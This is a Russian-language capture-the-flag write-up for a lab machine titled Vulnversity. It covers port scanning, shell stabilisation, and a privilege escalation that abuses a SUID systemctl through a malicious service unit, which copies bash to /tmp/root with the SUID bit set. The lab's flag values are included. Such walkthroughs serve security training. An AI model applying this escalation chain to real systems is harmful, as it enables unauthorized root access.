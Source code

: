 # VulnHub - Vulnversity

📅 Дата: 2025-07-01  
🧠 Сложность:  easy 
💻 IP-адрес: 10.10.249.11  

---

## 🔍 Сканирование

```bash
export ip=10.10.249.11
export ports=$(sudo nmap -sS -p- $ip | grep -oP "^[0-9]+(?=/tcp\s+open)" | sort -n | paste -sd ",")
sudo nmap -sT -Pn -sV -T4 -A -p $ports $ip -oN scans/nmap.txt
```

🖼️ Nmap скан:

![nmap scan](screenshots/nmap_scan.png)

---

## 🕵️ Enumeration



## 📂 Получение доступа

Стабилизация
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```


## ⚙️ Привилегии

SUID find
```bash
www-data@ip-10-10-249-11:/tmp$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/mount
/bin/umount
/bin/systemctl
...
```
### /bin/systemctl

**1. Создание временного .service-файла**
```bash
TF=$(mktemp).service
```
 - mktemp создаёт уникальный временный файл (например, /tmp/tmp.ABCD1234).
 - Добавляется .service, чтобы systemd воспринимал его как юнит.

**2. Построчная запись вредоносного юнита systemd**
```bash
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cp /bin/bash /tmp/root; chmod +xs /tmp/root"
[Install]
WantedBy=multi-user.target' > $TF
```
 - [Service] – секция, определяющая сервис.
  - Type=oneshot – означает, что сервис выполнится один раз и завершится (не демонизируется).
  - ExecStart=... – команда, которая выполнится при старте сервиса. В данном случае:
   - cp /bin/bash /tmp/root – копирует /bin/bash в /tmp/root.
   - chmod +xs /tmp/root – добавляет SUID-бит (+s), чтобы /tmp/root запускался с правами владельца (root).
 - [Install] – секция, указывающая, когда сервис должен запускаться.
  - WantedBy=multi-user.target – сервис будет активирован при загрузке системы в многопользовательском режиме.

**3. Связывание сервиса с systemd**
```bash
systemctl link $TF
```
 - systemctl link создаёт символическую ссылку из /etc/systemd/system/ на временный файл.
 - Теперь systemd "видит" этот сервис и может им управлять.

**4. Активация сервиса (моментальный запуск)**
```bash
systemctl enable --now $TF
```
 - enable – добавляет сервис в автозагрузку (создаёт симлинк в /etc/systemd/system/multi-user.target.wants/).
 - --now – сразу запускает сервис (выполняет ExecStart).

**Что происходит?**
Systemd (работающий от root) выполняет команду:
```bash
/bin/sh -c "cp /bin/bash /tmp/root; chmod +xs /tmp/root"
```
В /tmp/ появляется файл root – это копия /bin/bash с SUID-битом.

**5. Запуск SUID-баша с правами root**
```bash
/tmp/root -p
```
 - **-p** – сохраняет привилегии (иначе bash сбрасывает SUID).


## 🏁 Флаги

- User flag: 8bd7992fbe8a6ad22a63361004cfcedb
- Root flag: a58ff8579f0a9270368d33a9966c7fd5

---


